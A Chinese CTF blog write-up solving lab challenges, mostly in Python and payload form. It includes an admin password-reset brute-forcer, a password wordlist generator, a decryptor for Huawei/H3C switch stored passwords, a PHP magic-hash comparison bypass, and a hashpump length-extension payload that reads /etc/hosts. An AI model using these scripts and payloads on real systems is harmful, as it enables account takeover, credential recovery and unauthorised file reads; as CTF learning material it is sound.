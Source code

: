 title: 网络信息安全攻防的解密关
author: Qianye
abbrlink: b68be513
tags:
  - ctf
categories:
  - ctf
date: 2018-02-26 20:08:00
---
# 以管理员身份登录系统
sukey 值是为时间戳取整，MD5加密而来的
```bash
#coding=utf-8
import requests
import hashlib
import time
se=requests.session()
header={'Cookie':'PHPSESSID=c55e14d0b2191166af88d0ac03c48113'}
while True:
    sukey=hashlib.new('md5',str(int(time.time())).encode('utf-8')).hexdigest()
    url="http://lab1.xseclab.com/password1_dc178aa12e73cfc184676a4100e07dac/reset.php?sukey="+sukey+"&username=admin"
    r=se.get(url,headers=header)
    time.sleep(0.5)
    if r.content:
        print(r.content)
        break
    else:
        print('Cracking:'+sukey)
        
 ```
 # 

 先生成字典。
 ```bash
 with open("password.txt","w") as f:
    for year in range(1933,1936):
        for month in range(1,13):
            for day in range(1,32):
                f.write("%d%02d%02d\n"%(year,month,day))
 ```
  用 EWSA 爆破失败，不知啥原因，以后再研究。
 
# 思科密码破解
[在线解密](http://www.ifm.net.nz/cookbooks/passwordcracker.html)

# uawei/h3c 交换机的加密密码
在window下无法运行此脚本，在kail下即可得。
``` bash
# coding=utf-8
from Crypto.Cipher import DES

def decode_char(c):
    if c == 'a':
        r = '?'
    else:
        r = c
    return ord(r) - ord('!')

def ascii_to_binary(s):
    assert len(s) == 24
    out = [0]*18
    i = 0
    j = 0

    for i in range(0, len(s), 4):
        y = decode_char(s[i + 0])
        y = (y << 6) & 0xffffff
        k = decode_char(s[i + 1])
        
        y = (y | k) & 0xffffff
        y = (y << 6) & 0xffffff
        k = decode_char(s[i + 2])
        
        y = (y | k) & 0xffffff
        y = (y << 6) & 0xffffff
        k = decode_char(s[i + 3])
        y = (y | k) & 0xffffff

        out[j+2] = chr(y       & 0xff)
        out[j+1] = chr((y>>8)  & 0xff)
        out[j+0] = chr((y>>16) & 0xff)

        j += 3
    return "".join(out)

def decrypt_password(p):
    r = ascii_to_binary(p)
    r = r[:16]
    d = DES.new("\x01\x02\x03\x04\x05\x06\x07\x08", DES.MODE_ECB)
    r = d.decrypt(r)
    return r.rstrip("\x00")

if __name__ == '__main__':
    miwen = "aK9Q4I)J'#[Q=^Q`MAF4<1!!"
    print u'明文' + decrypt_password(miwen)
    
``` 

# 异常数据

字母全部转换为大写的base64。

``` bash
#coding=utf-8
import re
from base64 import *

def change(res,arr,pos):
    res.append(''.join(arr))
    i=pos
    for i in range(i,len(arr)):
        if arr[i]<='Z' and arr[i]>='A':
            arr[i]=arr[i].lower()
            change(res,arr,i+1)
            arr[i]=arr[i].upper()

arr=list('AGV5IULSB3ZLVSE=')
res=[]
change(res,arr,0)

res_decode=map(b64decode,res)

for i in res_decode:
    if re.findall(r'\\x',repr(i)):
        continue
    else:
        print(i)
```
# 
[php特性隐患](https://www.waitalone.cn/php-sec-bugs.html)

``` bash
<?php
$flag=FLAG;
if(isset($_POST["password"])){
	$password=$_POST['password'];
    $rootadmin="!1793422703!";
    if($password==$rootadmin){die("Please do not attack admin account!");}
    
    if(md5($password)==md5($rootadmin)){
        echo $flag;
    }else{
        die("Password Error!");
    }
}
?>
```
$rootadmin加密后的值为
```bash
md5(!1793422703!,32) = 0e332932043729729062996282883873
md5(QNKCDZO,32) = 0e830400451993494058024219903391
md5(240610708,32) = 0e462097431906509019562988736854
```
构造payload: ?password=QNKCDZO

# 有签名限制的读取任意文件

[哈希长度扩展攻击的简介以及HashPump安装使用方法](http://www.cnblogs.com/pcat/p/5478509.html)

[解法原文](http://blog.csdn.net/zhankehua/article/details/51865788)

在kail下使用hashpump
```bash
hashpump -s f3d366138601b5afefbd4fc15731692e -d /etc/hosts -k 32 -a chen
```
得到，包'\x'换成%
```bash
3998b374350d22991b9c8f9885194a16
/etc/hosts\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00P\x01\x00\x00\x00\x00\x00\x00chen
```
构造payload: 
```bash
?filepath=/etc/hosts%80%00%00%00%00%00%00%00%00%00%00%00%00%00P%01%00%00%00%00%00%00chen
&sign=3998b374350d22991b9c8f9885194a16
``` 